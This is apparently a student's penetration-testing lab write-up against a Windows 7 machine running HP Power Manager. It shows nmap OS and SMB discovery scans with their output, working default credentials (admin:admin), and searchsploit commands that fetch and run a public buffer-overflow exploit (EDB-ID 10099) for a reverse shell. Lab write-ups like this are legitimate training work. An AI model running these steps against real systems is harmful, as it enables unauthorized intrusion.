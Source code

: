 ## OS
```bash
sudo nmap $TARGET -O -oN scans/$NAME-nmap-os

# output
NSTR
```
```bash
sudo nmap $TARGET -p445 --script smb-os-discovery -oN scans/$NAME-nmap-os-smb

# output
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-28 22:53 EDT
Nmap scan report for 192.168.103.45
Host is up (0.11s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-28T19:53:40-07:00

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
```

# Exploit
## Password Guessing
### Default Credentials
This worked!
```bash
# HP Power Manager
# admin:admin
```

## CVE-2009-2685
This CVE is applicable (apparently).

### EDB-ID-10099
This did not work at first, but after finding a different exploit I realized I did not modify the script or change the reverse shell port (I used 443, the exploit uses 4444; I also may have used the wrong reverse shell IP address). See walkthrough below for more information.
```bash
searchsploit hp power manager
mkdir edb-id-10099
cd edb-id-10099
searchsploit -x 10099
python 10099.py 192.168.103.45

# output
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK

[+] Done!
```
